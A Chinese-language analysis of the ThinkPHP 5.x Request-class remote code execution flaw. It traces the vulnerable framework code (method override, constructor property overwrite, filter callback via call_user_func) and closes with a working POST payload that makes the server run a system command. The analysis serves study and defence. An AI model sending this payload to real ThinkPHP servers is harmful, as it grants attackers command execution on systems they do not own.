

# TP5代码执行

version:5.0.0<=ThinkPHP5<=5.0.23, 5.1.0<=ThinkPHP<=5.1.32

## Request类任意方法调用

在Request类中的method方法中,$this->method的值为POST请求中_method(默认值)的值,而后再把整个POST数组传递给该方法作为参数,导致可以请求Request类中的任意方法,且参数可控

```php
    public function method($method = false)
    {
        if (true === $method) {
            // 获取原始请求类型
            return $this->server('REQUEST_METHOD') ?: 'GET';
        } elseif (!$this->method) {
            if (isset($_POST[Config::get('var_method')])) {
                $this->method = strtoupper($_POST[Config::get('var_method')]);
                $this->{$this->method}($_POST);
            } elseif (isset($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE'])) {
                $this->method = strtoupper($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE']);
            } else {
                $this->method = $this->server('REQUEST_METHOD') ?: 'GET';
            }
        }
        return $this->method;
    }
```

而在Request类的构造函数中还可以进行变量覆盖,在构造函数中循环检查变量在该类中是否存在,若存在则进行赋值

```php
    protected function __construct($options = [])
    {
        foreach ($options as $name => $item) {
            if (property_exists($this, $name)) {
                $this->$name = $item;
            }
        }
        if (is_null($this->filter)) {
            $this->filter = Config::get('default_filter');
        }
               // 保存 php://input
        $this->input = file_get_contents('php://input');
    }
```

在Request类中的filterValue()方法中对变量进行了循环过滤,其中$filter为过滤的函数,可以通过刚才的构造函数对该值进行覆盖那么call_user_func()执行的函数则可控

```php
    private function filterValue(&$value, $key, $filters)
    {
        $default = array_pop($filters);
        foreach ($filters as $filter) {
            if (is_callable($filter)) {
                // 调用函数或者方法过滤
                $value = call_user_func($filter, $value);
            } elseif (is_scalar($value)) {
                if (false !== strpos($filter, '/')) {
                    // 正则过滤
                    if (!preg_match($filter, $value)) {
                        // 匹配不成功返回默认值
                        $value = $default;
                        break;
                    }
```

搜索调用filterValue的地方,发现在input方法中调用了filterValue()

```php
   public function input($data = [], $name = '', $default = null, $filter = '')
    {
        if (false === $name) {
            // 获取原始数据
            return $data;
			...
            ...
        // 解析过滤器
        $filter = $this->getFilter($filter, $default);//$filter可被变量覆盖

        if (is_array($data)) {
            array_walk_recursive($data, [$this, 'filterValue'], $filter);//调用filterValue
            reset($data);
        } else {
            $this->filterValue($data, $name, $filter);
        }

        if (isset($type) && $data !== $default) {
            // 强制类型转换
            $this->typeCast($data, $type);
        }
        return $data;
    }
```

而在param()中则调用了该input(),在param()中再次调用了$this->method,而参数为true

```php
    public function param($name = '', $default = null, $filter = '')
    {
        if (empty($this->mergeParam)) {
            $method = $this->method(true);
            // 自动获取请求变量
            switch ($method) {
                case 'POST':
                    $vars = $this->post(false);
                    break;
                case 'PUT':
                case 'DELETE':
                case 'PATCH':
                    $vars = $this->put(false);
                    break;
                default:
                    $vars = [];
            }
            // 当前请求参数和URL地址中的参数合并
            $this->param      = array_merge($this->param, $this->get(false), $vars, $this->route(false));
            $this->mergeParam = true;
        }
        if (true === $name) {
            // 获取包含文件上传信息的数组
            $file = $this->file();
            $data = is_array($file) ? array_merge($this->param, $file) : $this->param;
            return $this->input($data, '', $default, $filter);
        }
        return $this->input($this->param, $name, $default, $filter);
    }
```

参数为true的情况下method方法会调用server('REQUEST_METHOD')

```php
        if (true === $method) {
            // 获取原始请求类型
            return $this->server('REQUEST_METHOD') ?: 'GET';
```

在server的返回中也调用了input,而$this->server也可以进行变量覆盖

````php
    public function server($name = '', $default = null, $filter = '')
    {
        if (empty($this->server)) {
            $this->server = $_SERVER;
        }
        if (is_array($name)) {
            return $this->server = array_merge($this->server, $name);
        }
        return $this->input($this->server, false === $name ? false : strtoupper($name), $default, $filter);
    }
````

POST`_method=__construct&filter[]=system&server[REQUEST_METHOD]=whoami&method=get`来覆盖$filter为system,$value为server[REQUEST_METHOD]=whoami,利用call_user_func()执行命令



[详细分析](https://0kee.360.cn/blog/thinkphp-5-x-rce-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B8%8E%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/)


